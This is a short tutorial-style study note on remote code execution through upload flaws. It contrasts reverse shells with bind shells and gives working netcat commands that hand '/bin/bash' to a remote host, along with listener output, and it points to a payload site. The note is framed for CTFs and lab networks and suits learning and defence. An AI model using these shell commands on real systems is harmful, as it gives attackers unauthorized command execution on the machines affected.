 ![](Pasted%20image%2020241129202307.png)

# [Introduction]()

Remote Code Execution (as the name suggests) would allow us to execute code arbitrarily on the web server. Whilst this is likely to be as a low-privileged web user account (such as `www-data` on Linux servers), it's still an extremely serious vulnerability. Remote code execution via an upload vulnerability in a web application tends to be exploited by uploading a program written in the same language as the back-end of the website (or another language which the server understands and will execute). For payloads check [this](https://www.revshells.com/) website.

## [Reverse shell]()

![](Pasted%20image%2020241205154510.png)

In this case attacker listens/open port on attack machine and trick target machine to connect to attacker using specific payload. Payloads can be found on [revshells](https://www.revshells.com/). This is generally used in CTFs/internal networks.

Step 1: Attacker listens for a port. 
```
┌──[attacker@linux]─[~]
└──╼ $ nc -nlvp 9999
listening on [any] 9999 ...
connect to [192.168.122.60] from (UNKNOWN) [192.168.122.2] 54524
whoami
target
```

Step 2: Target connects to attacker port and give access to execute `/bin/bash`(payload is `nc 192.168.122.60 9999 -e /bin/bash` in this case.)
```
┌──[target@linux]─[~]
└──╼ $ nc 192.168.122.60 9999 -e /bin/bash

```

## [Bind shell]()

![](Pasted%20image%2020241205154852.png)

In this case attacker connect to target server which is listening on specific port. This is generally used in **external networks** because this does not requires port forwarding for external networks (as compared to revshell which requires config the router to forward external port to internal port.)

Step 1: Target listens on specific port and allows connected host to access `/bin/bash`
```
┌──[target@linux]─[~]
└──╼ $ nc -nlvp 9999 -e /bin/bash
listening on [any] 9999 ...
connect to [192.168.122.2] from (UNKNOWN) [192.168.122.60] 57644

```

Step 2: Attacker connects to target.
```
┌──[attacker@linux]─[~]
└──╼ $ nc 192.168.122.2 9999
whoami
target
```

